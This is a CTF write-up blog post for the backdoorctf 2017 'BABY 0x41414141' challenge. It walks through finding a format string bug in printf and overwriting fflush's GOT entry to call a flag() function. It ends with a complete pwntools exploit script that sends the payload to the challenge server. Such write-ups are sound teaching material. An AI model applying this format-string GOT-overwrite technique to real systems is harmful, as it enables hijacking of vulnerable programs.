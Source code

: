 ```yaml
---
layout: post
title: backdoorctf 2017 - BABY 0x41414141 Writeup
categories: ctf_backdoorctf17
keywords: "exploitation"
comments: true
authors:
    - andreafioraldi
---
```


Executing the binary for the first time we have this behaviour:

<img src="{{ site-url }}/assets/backdoorctf17/baby-1.png">

Ok, cool, decompile it.

This is the main function:

<img src="{{ site-url }}/assets/backdoorctf17/baby-2.png">

Note: edata is in .bss and it is stdin

Immediatly we see the dumb `printf(&format)` call. Format string exploit? Yes.

After the vulnerable printf there is a fflush call, so i choose to overwrite its entry in the GOT.

In the functions list we can see the `flag(void)` function:

<img src="{{ site-url }}/assets/backdoorctf17/baby-3.png">

Now we must write an exploit to overwrite the fflush entry with the address of flag.

Because the flag address is a really big number i decided to split the format string in two write steps.

Above all we must locate the printf's parameter index corrispondent to the first 4 bytes of the buffer:

We try `AAAA %{INDEX}$p` with various indexes, and finally we get that with `AAAA %10$p` the program prints 0x41414141.

In the exploit we must write the last 2 bytes of the flag's address to the fflush got entry and the first two bytes to the got entry +2.

Remember that %n writes always 4 bytes.

Adjusting the number of printed chars to fit the flag address we have the exploit.

TADAAA

{% highlight python %}
from pwn import *

flag_func = 0x0804870B
fflush_got = 0x0804A028

off1 = 0x870B - 8 - len("Ok cool, soon we will know whether you pwned it or not. Till then Bye ")
off2 = (0x0804 - 0x870B) & 0xFFFF

format = p32(fflush_got) + p32(fflush_got +2) + "%" + str(off1) + "c%10$n%" + str(off2) + "c%11$n"

#p = process("./32_new")
p = remote("163.172.176.29", 9035)

print p.recvline(False)

p.sendline(format)

print p.readall()

{% endhighlight %}

